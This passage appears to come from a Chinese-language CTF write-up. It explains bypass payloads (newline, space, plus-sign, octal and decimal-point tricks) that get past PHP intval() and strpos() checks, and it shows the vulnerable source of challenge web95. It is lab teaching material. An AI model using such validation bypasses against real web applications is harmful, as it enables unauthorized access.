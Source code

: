 > 对于strpos()函数，我们可以利用换行进行绕过（%0a）
> payload:?num=%0a010574
> 也可以小数点绕过
> payload：?num=4476.0
> 因为intval()函数只读取整数部分
> 还可以八进制绕过(%20是空格的url编码形式)
> payload：?num=%20010574
> ?num= 010574 // 前面加个空格
> ?num=+010574 
> ?num=+4476.0

我们选用其中一个绕过方法即可

如空格绕过

```
?num=%20010574
```

这题因为用的是强判定也可以用这种方法

```
?num=4476.0
```

这种方法就是使其变为浮点型从而使强判定为false，绕过第一个判定

#### web95

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:53:59
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```
